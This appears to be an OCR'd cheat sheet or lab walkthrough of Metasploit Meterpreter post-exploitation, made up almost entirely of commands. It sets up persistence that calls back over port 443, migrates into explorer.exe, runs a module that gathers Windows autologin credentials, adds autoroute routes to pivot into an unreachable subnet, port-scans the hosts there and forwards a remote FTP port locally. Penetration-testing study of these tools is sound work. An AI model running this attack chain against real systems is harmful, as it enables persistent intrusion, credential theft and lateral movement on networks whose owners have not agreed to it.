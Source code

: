 ```
shell

# Meterpreter Persistance
Help option
run persistence -h

run persistence -A -L c:\\ -X -i 10 -p 443 -r target_ip 

# Before extracting auto login creds we have to migrate meterpreter to a process
migrate -N explorer.exe


Extract auto login creds
meterpreter > run post/windows/gather/credentials/windows_autologin
OR 
msf > use post/windows/gather/credentials/windows_autologin
msf post(windows_autologin) > show options
    ... show and set options ...
msf post(windows_autologin) > set SESSION session-id
msf post(windows_autologin) > exploit

"autoroute" command to add route to unreachable IP range.

autoroute

This command is used to add meterpreter session specific routes to the Metasploit's routing table. These routes can be used to pivot to the otherwise unreachanble network.

run autoroute -h
run autoroute -s 192.69.228.0 -n 255.255.255.0 (Adding the unreachalbe route)

Background the meterpreter session and check if the route is added successfully to the metasploit's routing table.

background
route print

We could use the "route" command to add the routing table to the metasploit framework
route add 192.69.228.0 255.255.255.0 1 (Syntax: route add subnet netmask sid)

run auxiliary TCP port scanning module to discover any available hosts (From IP .3 to .10). And, if any of ports 80, 8080, 445, 21 and 22 are open on those hosts.

use auxiliary/scanner/portscan/tcp
set PORTS 80, 8080, 445, 21, 22
set RHOSTS 192.69.228.3-10
exploit


We have discovered one host i.e. 192.69.228.3. Ports 21 (FTP) and 22 (SSH) are open on this host.

Step 14: In the meterpreter session there is an utility "portfwd" which allows forwarding remote machine port to the local machine port. We want to target port 21 of that machine so we will forward remote port 21 to the local port 1234.

Interact with the meterpreter session and forward the remote port to local machine.

Check portfwd meterpreter command help option.

Command

session -i 1
portfwd -h
```